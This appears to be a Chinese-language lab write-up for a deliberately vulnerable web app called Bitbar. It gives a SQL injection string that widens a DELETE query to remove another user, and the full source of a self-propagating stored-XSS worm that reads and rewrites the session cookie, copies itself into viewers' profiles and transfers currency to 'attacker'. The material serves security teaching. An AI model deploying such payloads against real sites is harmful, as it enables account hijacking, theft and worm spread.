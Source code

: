 ### SQL Injection

看源码 router.js，代码

```js
const query = `DELETE FROM Users WHERE username == "${req.session.account.username}";`
await db.get(query);
```

要求删掉该用户时 user3 也会被删掉。关键在于如何让这个恶意用户也一起被删掉。

```text
user3" or username like "user3%
```

### Profile Worm

查看 Profile 时触发，观察源码，profile 的内容是插入到 html 里的，鉴定为 XSS 注入。

目标是传染，查询到被感染的 profile 会让自己的 profile 也变成这个，且 bitbars 显示为 10，并给攻击者发 1 块钱。

这个显示为 10，则是利用 id 的唯一性，在前面把 `bitbar_count` 这个 id 先占住。

接下来就是自我复制的问题了。直接把内容写进字符串里套娃是不可能的，那就只能复制显示出来的东西了。

看源码 views/pages/profile/view.ejs，发现这部分是有 id 的

```html
<% if (result.username && result.profile) { %>
    <div id="profile"><%- result.profile %></div>
<% } %>
```

利用这个 id 来复制内容就好了。

但是，直接从元素的 innerHTML 里搞出来的是没处理过的，里面会有一些像 `&` 或是奇怪的字符。需要处理一下。随便 update profile 一下观察一下，不难看出在提交表单时是转义过的（废话

参考万能的 [MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/encodeURI)，发起 post 请求的时候用 `encodeURIComponent()` 编码就行了。

cookie 里的 profile 改不改无所谓（虽然我还是改了），反正 logout 重进就出来了。

```html
<h3>You are infected!</h3>

<span id="bitbar_count" class="10" />

<script>
    // parse cookie
    let ses = document.cookie.slice(8);
    let info_s = atob(ses);
    let info = JSON.parse(info_s);
    // get profile and modify
    let prof = document.getElementById("profile").innerHTML;
    info.account.profile = prof;
    // encode again
    info_s = JSON.stringify(info);
    ses = btoa(info_s);
    document.cookie = "session=" + ses;
    // trans
    let xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "post_transfer");
    xhr1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr1.send("destination_username=attacker&quantity=1");
    // upload profile to database
    let xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "set_profile");
    xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr2.send("new_profile=" + encodeURIComponent(prof));
</script>
```
